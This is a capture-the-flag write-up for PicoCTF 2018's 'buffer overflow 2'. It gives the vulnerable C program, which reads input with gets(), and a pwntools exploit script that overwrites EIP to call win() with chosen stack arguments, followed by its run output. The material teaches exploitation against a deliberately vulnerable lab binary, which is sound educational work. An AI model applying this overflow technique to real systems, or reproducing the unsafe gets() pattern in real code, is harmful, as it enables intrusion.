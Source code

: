 ```yaml
---
title: Call a function with arguments - 32 bits 
description: Exploiting a buffer overflow to call a function with specific arguments in 32 bits architecture.
---
```


# Buffer Overflow - Calling a function with args

## Summary

Exploiting a buffer overflow to call a function with specific arguments.

## Challenge

### Statement

!!! note ""
    Challenge : `buffer overflow 2` from PicoCTF 2018.

Alright, this time you’ll need to control some arguments. Can you get the flag from this program?

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Answer

```shell
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f2f6cce698b62f5109de9955c0ea0ab832ea967c, not stripped
```

The goal of this challenge is to call the **win** function with the two arguments, **0xDEADBEEF** and **0xDEADC0DE**. As you have probably noticed, the **vuln** function is vulnerable to a buffer overflow attack which allows us to rewrite **EIP** and thus call the **win** function. We can pass it the two required arguments using the stack as we are in 32 bits.

| Stack          |
| :------------: |
| EIP            |
| Return address |
| Argument n°1   |
| Argument n°2   |
| ...            |

```python linenums="1"
#!/usr/bin/env python3
from pwn import process, p32, ELF

# Run the binary
PROGRAM = "./vuln"
p = process(PROGRAM)

# Setup the payload
elf = ELF(PROGRAM)
win_func_addr = p32(elf.symbols["win"])
arg1 = p32(0xDEADBEEF)
arg2 = p32(0xDEADC0DE)
padding = ("A" * (100 + 12)).encode() # BUFSIZE + stuff we do not care about
padding2 = ("A" * 4).encode() # Override the return address

payload = padding + win_func_addr + padding2 + arg1 + arg2

# Sending the payload
p.sendlineafter("your string: \n", payload)
p.interactive()
```

Execution :

```shell
$ echo "ggflag" > flag.txt
$ python3 solve.py 
[+] Starting local process './vuln': pid 13568
[*] '/home/xxx/pico/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅\x04AAAAﾭ\xde\xde\xc0\xad\xde
ggflag
[*] Got EOF while reading in interactive
$ 
```
